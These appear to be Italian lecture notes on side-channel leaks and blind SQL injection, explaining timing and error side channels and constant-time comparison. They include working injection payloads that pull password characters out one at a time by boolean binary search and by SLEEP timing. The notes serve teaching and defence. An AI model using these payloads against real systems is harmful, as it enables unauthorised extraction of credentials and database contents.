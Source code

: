 Molto spesso le applicazioni possiedono **side effects**, ovvero fenomeni osservabili che rispecchiano lo stato interno dell'applicazione.
Se un _side effect_ dipende su un valore segreto allora abbiamo **leak parziale**, se il leak è grande abbastanza per recuperare un segreto allora abbiamo un attacco.

Un esempio banale è quello del **bute-force** di una password: ad ogni iterazione l'attaccante sa che una certa password non è corretta, bisogna quindi rallentare i controlli della password e/o disabilitare l'utente dopo qualche tentativo.

**Esempi di side channels**:
- Errori
- Tempo
- Contenuto
- Grandezza
- Consumo energetico
- Emissioni elettromagnetiche

Per <u>contrastare i leak da parte degli errori</u> è possibile **minimizzare l'errore** ovvero non dare informazioni dettagliate (e.g. se l'username o la password sono sbagliati potrebbe essere ritornato "wrong credentials").

Anche se l'errore viene ridotto, è pur sempre possibile osservare il tempo, magari l'errore viene ritornato più velocemente se è solo l'utente ad essere sbagliato.

Il confronto di stringhe ad esempio può essere più lento in base a "quanto differiscono":
```c
"aaaaa" == "aaaaa" // potrebbe essere più lento
"aaaaa" == "aaabb" // il confronto termina al quarto carattere
"aaaaa" == "a" // tipicamente più veloce a fallire
```

Un attaccante potrebbe andare ad indovinare un carattere alla volta controllando quando il tempo impiegato per il confronto è più alto:
```c
"axxxx" == "*****"
"abxxx" == "*****"
// ...
```

La soluzione è usare funzioni **time-safe**, in PHP `hash_equals` compara due stringhe impiegando sempre lo stesso tempo.

## Blind SQL injection
Questo tipo di injection sfrutta un side channel per eseguire il leak di informazioni, solitamente viene usato quando il risultato della query non viene mostrato nella pagina web.

In base al successo o meno della query, l'applicazione potrebbe mostrare:
- Un messaggio
- Un errore
- Una pagina "rotta"
- Una pagina vuota

Consideriamo un servizio di **recupero password** dove se l'utente esiste viene mandata una mail di recupero, altrimenti un errore viene mostrato.
>Nessuna informazione viene mostrata, ma l'errore dipende dalla query.

Supponiamo che la query che controlla l'esistenza della mail (data in input) nel database sia:
```sql
SELECT 1 FROM ... WHERE ... email='EMAIL'
```

L'effetto di `EMAIL=' OR 1 #` è quello di far riuscire la query, non esegue il leak di nessun'informazione però ora l'attaccante sa che le injection sono possibili.

La seguente query potrebbe fallire, tuttavia in ogni caso ritornerebbe un risultato distinguibile dal caso di successo:
```sql
SELECT 1
FROM people
WHERE mail='' OR (SELECT 1 FROM users LIMIT 0,1)=1 LIMIT 0,1;
```

Un attaccante può usare la funzione `MID` per controllare l'esistenza di una particolare colonna:
```sql
SELECT 1 FROM people WHERE mail=' ' OR (SELECT MID(password,1,0) FROM people LIMIT 0,1)='' #
```
>In questo caso controlla che esista la colonna.

```sql
' OR (SELECT MID(password,1,1) FROM people LIMIT 0,1)='a' #
```
>In questo caso prova a vedere se il primo carattere della password combacia con 'a'.

È possibile usare una **binary search** per trovare carattere per carattere:
```sql
' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('m') #
FALSE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('t') #
FALSE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('w') #
FALSE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('y') #
TRUE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('x') #
TRUE
```
>Worst case: 5 query per i caratteri lowercase ($\log_226 \sim 4.7$).

## Totally blind SQL injection
Nel caso in cui la web app non mostri nessun tipo di risultato l'attaccante può comunque usare il **tempo** come side channel.

L'attaccante può ancora usare la ricerca binaria:
```sql
' OR (SELECT IF(
 (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('m'),
 SLEEP(1),
 NULL)
 ) #
```

Il tempo di _sleep_ deve essere abbastanza per essere osservato da remoto, l'attacco è lento ma può eseguire il leak di tutto il database.
